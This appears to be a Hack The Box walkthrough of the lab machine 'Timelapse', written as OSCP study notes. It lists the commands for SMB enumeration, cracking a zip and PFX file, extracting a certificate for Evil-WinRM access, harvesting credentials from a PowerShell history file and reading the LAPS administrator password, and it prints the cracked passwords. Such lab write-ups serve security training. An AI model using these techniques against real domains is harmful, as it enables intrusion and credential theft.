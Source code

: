## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

### Recon
- **Nmap Scan:**
  - Found 18 open ports including: SMB (445), [Kerberos](Kerberos) (88), [LDAP](LDAP) (389), and [WinRM](WinRM) (5986)
  - Domain: `timelapse.htb`
  - Hostname: `dc01.timelapse.htb`

```bash
nmap -p- --min-rate 10000 10.10.11.152
nmap -p <interesting_ports> -sCV 10.10.11.152
```

- **/etc/hosts Addition:**
```
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

### [SMB](SMB) Enumeration
- SMB anonymous login was successful:
```bash
smbclient -L //dc01.timelapse.htb -N
```
- Notable share: `Shares`
  - Found file: `winrm_backup.zip`
  - Found LAPS documentation in `HelpDesk`

### Shell as `legacyy`
- **Extracted `winrm_backup.zip` → `legacyy_dev_auth.pfx`**
- **Cracked zip password using john:** `supremelegacy`
- **Cracked PFX password using pfx2john + john:** `thuglegacy`
- **Extracted cert & private key:**
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key-enc.pem
openssl rsa -in key-enc.pem -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
- **Connected using Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key
```
- Grabbed `user.txt`

### Shell as `svc_deploy`
- **Found PowerShell history file:**
```powershell
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Credentials found:**
  - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
- **Connected with Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Shell as Administrator
- `svc_deploy` is a member of the `LAPS_Readers` group.
- Queried LAPS for DC01 local admin password:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- Found password: `uM[3va(s870g6Y]9i]6tMu{j`
- Connected as Administrator:
```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

### Root.txt
- `root.txt` not in Administrator desktop.
- Found under `C:\Users\TRX\Desktop\root.txt`

### Notes
- TRX account exists for HTB flag rotation purposes due to dynamic nature of LAPS.
